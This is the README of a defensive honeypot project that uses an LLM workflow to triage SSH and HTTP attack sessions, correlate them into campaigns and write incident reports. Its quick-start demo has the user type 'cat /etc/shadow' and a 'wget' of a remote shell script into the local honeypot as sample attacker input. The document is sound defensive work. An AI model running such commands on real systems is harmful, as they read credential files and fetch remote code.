

# AI SOC Analyst

An agentic honeypot triage pipeline. Attackers hit a low-interaction SSH or HTTP
honeypot; a Mastra workflow grades every session, enriches it with threat
intelligence, and writes analyst-readable incident reports.

[](https://github.com/0xsan7/Honeypot/actions/workflows/ci.yml)
[](https://ai.google.dev/gemini-api)
[](https://mastra.ai)
[](https://nodejs.org)
[](https://www.typescriptlang.org)
[](LICENSE)
[](#testing)

**Status:** feature-complete and verified. Not yet running on a public VPS — see
[Status](#status).

---

## Overview

Public ports are scanned continuously. Most of it is noise. Some of it is a real
operator working toward a foothold. Separating the two by hand is the tedious
part, and it does not scale past a handful of sessions a day.

This project automates the triage:

| Component | Behaviour |
| --- | --- |
| SSH honeypot | Low-interaction `ssh2` server. Accepts any credential, answers from a static table, records what was tried. |
| HTTP honeypot | Second listener for the traffic HTTP actually attracts: admin panels, `.env` and `.git` probes, traversal attempts. |
| Triage | Mastra workflow classifies each session (`noise`, `recon`, `credential_stuffing`, `active_exploit_attempt`) with an LLM-graded severity 1-5. |
| Enrichment | Geolocation and ASN via `ip-api.com`, optional AbuseIPDB reputation. Every lookup degrades to a warning, never a crash. |
| Correlation | Events from one source IP inside a 30-minute window collapse into a campaign, persisted in LibSQL. |
| Reports | Markdown incident reports generated when a campaign crosses severity 4 or 5 events, refreshed as it grows, and marked `closed` once it goes quiet. |
| MCP server | Exposes `get_recent_campaigns`, `get_campaign_detail`, and `ask_soc_agent` to any MCP client. |
| Dashboard | Live view of event volume, severity distribution, top sources, and campaign state. |

## Architecture

```
   attacker
      |  ssh -p 2222  /  http :8080
      v
+----------------------------+
|  Honeypots                 |   accepts any credential
|  ssh2 + node:http          |   static canned replies only
|  no exec, no shell         |   rotating event log
+-------------+--------------+
              |  data/events.jsonl
              v
+----------------------------+
|  Normalizer                |   JSONL -> validated AttackEvent
|  (zod)                     |   malformed lines skipped, never fatal
+-------------+--------------+
              |
              v
+----------------------------+
|  Mastra triage workflow    |
|                            |
|  classify --> Gemini       |
|      |        grades 1-5   |
|      v                     |
|  enrich  --> ip-api.com    |
|             AbuseIPDB      |
|             (graceful)     |
+-------------+--------------+
              |  data/enriched.jsonl
              v
+----------------------------+
|  Correlation               |   same IP within 30 min -> one campaign
|  LibSQL (persists)         |   auto-close after 24h idle
|                            |   report at severity >= 4 or >= 5 events
+-------------+--------------+
              |
              v
      reports/*.md
              |
              +--> dashboard   (npm run dashboard)
              +--> MCP server  (npm run mcp)
```

## Quick start

Requires **Node 22.13+**.

```bash
git clone https://github.com/0xsan7/Honeypot.git
cd Honeypot
npm install
cp .env.example .env      # add your GOOGLE_GENERATIVE_AI_API_KEY
npm run setup             # host keys, frontend build, demo data
```

`npm run setup` takes roughly 15 seconds on a warm npm cache and is idempotent.
It generates the honeypot host keys, installs and builds the `web/` frontend, and
seeds demo campaigns so there is something to look at before you have a key.

Get a free Gemini key at [aistudio.google.com/apikey](https://aistudio.google.com/apikey).
It begins with `AIza`. The key is only needed for live triage; the honeypot,
correlation, reporting, dashboard, and MCP server all work without it.

### Run it

Two terminals:

```bash
# terminal 1
npm run honeypot
```

```bash
# terminal 2
ssh -p 2222 root@127.0.0.1     # any password is accepted
whoami
cat /etc/shadow
wget http://10.0.0.1/x.sh

npm run pipeline               # triage what was captured
```

The honeypot answers from a static table. Nothing it is told is ever executed.

```
[5] active_exploit_attempt   127.0.0.1 user=root pass=admin123 cmds=4
[4] active_exploit_attempt   127.0.0.1 user=admin pass=password cmds=2
[3] credential_stuffing      127.0.0.1 user=test pass=test cmds=0
      warnings: skipped geo lookup for private IP; AbuseIPDB skipped: no key
```

### Without an API key

The free Gemini tier allows roughly 20 classifications a day. To exercise the
whole second half of the pipeline at no cost:

```bash
npm run seed        # 20 synthetic enriched events
npm run correlate   # group into campaigns, write reports
```

```
  198.51.100.23 sev5 active_exploit_attempt   -> campaign 9993a6d3 (6 events, max sev 5)
      REPORT: reports/campaign-9993a6d3-....md
```

### View it

```bash
npm run dashboard   # landing page at /, console at /dashboard
npm run mcp         # MCP server on stdio
npm run dev         # Mastra Studio at localhost:4111
```

The site serves two views: a React landing page at `/` and the SOC console at
`/dashboard`, both on `http://127.0.0.1:4173`.



## Commands

| Command | Description |
| --- | --- |
| `npm run setup` | Host keys, frontend build, and demo data in one command |
| `npm run honeypot` | Start the SSH honeypot on `:2222` |
| `npm run honeypot:http` | Start the HTTP honeypot on `:8080` |
| `npm run pipeline` | Triage captured events through the LLM |
| `npm run correlate` | Group enriched events into campaigns, write reports |
| `npm run seed` | Seed 20 synthetic enriched events (no LLM calls) |
| `npm run dashboard` | Serve the site on `127.0.0.1:4173` |
| `npm run mcp` | MCP server on stdio (3 tools) |
| `npm run backup` | Consistent copy of the campaign store via `VACUUM INTO` |
| `npm run keys` | Regenerate honeypot host keys |
| `npm run dev` | Mastra Studio on `localhost:4111` |
| `npm run probe` | Drive synthetic SSH sessions at the honeypot |
| `npm test` | Unit tests, LLM mocked (no API calls) |
| `npm run typecheck` | `tsc --noEmit` |
| `npm run test:all` | Every suite below, in order |
| `npm run test:mcp` | Real MCP client completes a handshake and calls tools |
| `npm run test:mcp-robustness` | 11 malformed calls; the server must not crash |
| `npm run test:pipeline` | Pipeline exits non-zero and explains why when it fails |
| `npm run test:autoclose` | Campaign auto-close persists across processes |
| `npm run test:http` | HTTP honeypot over a real socket (26 assertions) |
| `npm run verify:honeypot` | No-execution invariant, against a running honeypot |
| `npm run test:ask` | `ask_soc_agent` over a real MCP connection, live model |
| `npm run test:studio` | Live trace recorded by Mastra Studio |

`npm test` also covers both of the above with a mocked model at no cost, so a
regression in either fails the default suite. The live variants prove the
wiring against the real model; the mocked ones keep the guarantee permanent.
| `npm run test:concurrency` | N simultaneous sessions, one event each |

## MCP server

Three tools are exposed over stdio.

| Tool | Purpose |
| --- | --- |
| `get_recent_campaigns` | List recent campaigns with severity and event counts |
| `get_campaign_detail` | One campaign plus every enriched event in it |
| `ask_soc_agent` | Free-text questions, answered from stored data only |

```bash
npm run mcp
```

Register it with any MCP client:

```json
{
  "mcpServers": {
    "soc-analyst": {
      "command": "npm",
      "args": ["run", "mcp"],
      "cwd": "/absolute/path/to/Honeypot"
    }
  }
}
```

### Version constraint

`@mastra/mcp` is pinned to **1.18.0**. Do not upgrade to 2.x without reading
this first.

The 2.x line depends on `@modelcontextprotocol/server@2.0.0`, which speaks only
the `2026-07-28` protocol and additionally requires a per-request envelope claim
in `params._meta`. That server reports `supported: ["2026-07-28"]` while
rejecting `2026-07-28` from a conforming client, and no published client SDK
supports the version at all, since the newest tops out at `2025-11-25`. The
result is a server that no real client can connect to.

1.18.0 pulls in `@modelcontextprotocol/server-legacy`, which negotiates the
2025-era protocols that Claude Desktop, Cursor, and VS Code actually speak.

`npm run test:mcp` proves this over the wire. An earlier in-process test passed
while no client could connect at all, so the wire test is the one that counts.

## Configuration

Secrets are read from `.env`, never hardcoded. `.env.example` documents every
variable.

| Variable | Required | Default | Purpose |
| --- | --- | --- | --- |
| `GOOGLE_GENERATIVE_AI_API_KEY` | for live triage | none | Gemini key for classification |
| `ABUSEIPDB_API_KEY` | no | none | Reputation scores; skipped when absent |
| `HONEYPOT_PORT` | no | `2222` | SSH honeypot port |
| `HONEYPOT_BIND` | no | `127.0.0.1` | Set `0.0.0.0` only on infrastructure you own |
| `HTTP_HONEYPOT_PORT` | no | `8080` | HTTP honeypot port |
| `HTTP_HONEYPOT_BIND` | no | `127.0.0.1` | Set `0.0.0.0` only on infrastructure you own |
| `HONEYPOT_LOG` | no | `data/events.jsonl` | Event log path |
| `HONEYPOT_VERBOSE` | no | off | Log every HTTP request, not just probes |
| `LOG_MAX_BYTES` | no | `52428800` | Rotate the event log at 50 MB |
| `LOG_MAX_FILES` | no | `5` | Rotated generations to keep (~250 MB ceiling) |
| `MAX_CONNECTIONS` | no | `64` | Concurrent sessions per listener |
| `MAX_PER_IP` | no | `8` | Concurrent sessions from one source IP |
| `CAMPAIGN_WINDOW_MS` | no | `1800000` | Correlation window (30 minutes) |
| `CAMPAIGN_IDLE_CLOSE_MS` | no | `86400000` | Auto-close an idle campaign after 24 hours |
| `REPORT_DIR` | no | `reports/` | Where reports are written |
| `DASHBOARD_PORT` | no | `4173` | Dashboard port |
| `BACKUP_DIR` | no | `backup/` | Where `npm run backup` writes |
| `TURSO_DATABASE_URL` | no | `file:./soc-analyst.db` | Remote LibSQL, or local file |

## Security model

This is a defensive tool. It observes traffic directed at infrastructure the
operator controls, and does not scan, probe, or interact with third-party
systems.

**Commands are recorded, never executed.** Neither honeypot contains
`child_process`, a shell, `spawn`, `eval`, or `new Function`. Attacker input is
stored as strings and answered from static lookup tables. The guarantee is
structural rather than policy-based: there is no code path from a request to a
real process, and it does not depend on any LLM or runtime judgement.
`npm run test:http` asserts this by scanning the source, and
`npm run verify:honeypot` asserts the observable behaviour against a live
honeypot.

Beyond that:

- **Loopback by default.** Both listeners bind `127.0.0.1`. Binding `0.0.0.0`
  is an explicit decision and belongs only on infrastructure you own.
- **Bounded resource use.** The event log rotates by size, so a busy port
  cannot fill the disk. Connections are capped per listener and per source IP;
  at capacity a new connection is refused rather than dropping a live session,
  since a scanner will retry but a killed session loses its capture.
- **No secrets committed.** `.env`, host keys, databases, event logs, and
  generated reports are all gitignored.
- **Free-tier geolocation.** Uses the `ip-api.com` free tier with retry and
  backoff on 429s.
- **Synthetic credentials in examples.** The `admin123` and `password` values
  in this README and in `examples/` are generated by the test probe. Nothing
  was scraped from a real attacker.
- **Passwords captured from basic auth are never logged.** The username is
  retained for attribution; the password is discarded.

## Rate limits

Gemini's free tier allows roughly 20 classification requests per day on
`gemini-3.5-flash`. When the quota is exhausted the pipeline logs the failure
for that event, continues with the rest, and writes everything that did
succeed.

If nothing could be enriched, the command exits non-zero so a script or cron
job notices, and prints the cause:

```
Enriched 0/20 event(s) -> data/enriched.jsonl
PIPELINE FAILED: no events were enriched.
  Gemini quota exhausted. The free tier allows ~20 requests/day -- wait for the
  reset, or run `npm run seed` to demo without an LLM.
```

Correlation and reporting make no LLM calls, so they are unaffected by quota.
For higher throughput, use a billing-enabled key or change `CLASSIFIER_MODEL` in
`src/mastra/triage.ts`.

## Testing

```bash
npm run test:all
```

| Suite | What it proves |
| --- | --- |
| `npm test` | 47 unit tests, LLM mocked, no API calls |
| `npm run typecheck` | `tsc --noEmit` |
| `npm run test:mcp` | A real MCP client completes a handshake, lists all three tools, and calls two against a seeded store |
| `npm run test:mcp-robustness` | 11 malformed calls return clean errors; the server survives all of them |
| `npm run test:pipeline` | With the API key removed, the pipeline exits non-zero, writes nothing, and prints a fix |
| `npm run test:autoclose` | An idle campaign becomes `closed`, confirmed by a separate process reading the store |
| `npm run test:http` | The HTTP honeypot serves decoys, records events, survives hostile input, and contains no execution primitive |
| `npm run verify:honeypot` | The no-execution invariant, against a running honeypot |
| `npm run test:concurrency` | N simultaneous sessions each produce exactly one uniquely identified event |

The boundary suites exist because those defects were invisible to unit tests.
The original in-process MCP test passed while no MCP client could connect. The
pipeline exited `0` after writing zero enriched events. The honeypot verifier
exited `0` with nothing listening. Three separate cases of a green result that
verified nothing, which is the failure mode worth engineering against.

[TESTING.md](TESTING.md) documents manual verification for each acceptance
criterion, including what a genuine pass looks like.

## Deployment

[DEPLOY.md](DEPLOY.md) covers running this on a public VPS: provider selection,
firewall rules, systemd units with filesystem sandboxing, backups, and what must
not be exposed.

The honeypots bind `0.0.0.0` deliberately. The dashboard and MCP server have no
authentication and must stay on `127.0.0.1`, reachable over a tunnel:

```bash
ssh -N -L 4173:127.0.0.1:4173 you@host
```

A tunnel is not a substitute for a real VPS. Mass scanners, Shodan, and Censys
enumerate IP address space; they do not resolve tunnel hostnames, so a
honeypot behind ngrok or similar is never discovered and collects no unsolicited
traffic.

## Project layout

```
src/
  honeypot/
    ssh-server.ts          low-interaction SSH honeypot
    http-server.ts         low-interaction HTTP honeypot
    event-log.ts           size-based rotation, bounded disk use
    connection-limiter.ts  concurrency cap, per listener and per IP
  mastra/
    index.ts               Mastra registration (agents, tools, workflows)
    schemas.ts             zod schemas: AttackEvent / EnrichedEvent / Campaign
    normalizer.ts          JSONL -> validated events, rotation-aware tailing
    triage.ts              classify -> enrich workflow
    enrich.ts              geo / ASN / reputation, degrades gracefully
    store.ts               LibSQL campaign store with auto-close
    report.ts              deterministic markdown report generator
    mcp-server.ts          MCP exposure (3 tools)
    agents/soc-agent.ts    memory-backed analyst agent
    public/dashboard.html  SOC console (no build step)
scripts/                   pipeline, correlation, seeding, and 8 test harnesses
tests/                     56 unit tests across 7 files
web/                       React + Vite landing page (separate build)
examples/                  committed sample reports, synthetic data only
```

`DECISIONS.md` records the reasoning behind design calls, including several that
were reversed once their consequences were measured. `PRD.md` is the original
specification.

| Document | What it covers |
| --- | --- |
| [TESTING.md](TESTING.md) | How to verify each criterion by hand, and the verification standard |
| [DEPLOY.md](DEPLOY.md) | Public VPS setup, firewall rules, systemd units, backups |
| [DECISIONS.md](DECISIONS.md) | Design calls and the ones that were reversed, with reasons |
| [CONTRIBUTING.md](CONTRIBUTING.md) | How to contribute, and what the bar is |
| [SECURITY.md](SECURITY.md) | Reporting a vulnerability, and what is deliberately out of scope |
| [PRD.md](PRD.md) | The original specification |

## Status

Complete and verified end to end: both honeypots, the triage workflow,
correlation with auto-close, deterministic reporting, the MCP server, the
dashboard, and the deployment documentation.

All six PRD acceptance criteria are verified by real execution rather than
inspection. Two of them (`ask_soc_agent` over MCP, and Studio traces) were
silently broken until 2026-09-27 and are now covered by `npm run test:ask` and
`npm run test:studio`. Both need a live Gemini key and a running Studio, so
they sit outside `test:all`.

Not yet done:

- No demo recording of the console. `npm run test:studio` proves the trace
  data exists; it is not a video.
- Single-event campaigns are covered by tests, but the seed data does not
  produce them naturally.
- Reputation enrichment is wired and degrades correctly, but has only been
  exercised without an AbuseIPDB key.

## Contributing

Pull requests are welcome. The bar is specific: changes must be verifiable and
claims must match what the code actually does. Before opening one, read
[CONTRIBUTING.md](CONTRIBUTING.md) — particularly the rule that a test which
does not call the thing it is named for is not a test of it.

Security findings go to [SECURITY.md](SECURITY.md), not a public issue.

## License

Apache-2.0. See [LICENSE](LICENSE).
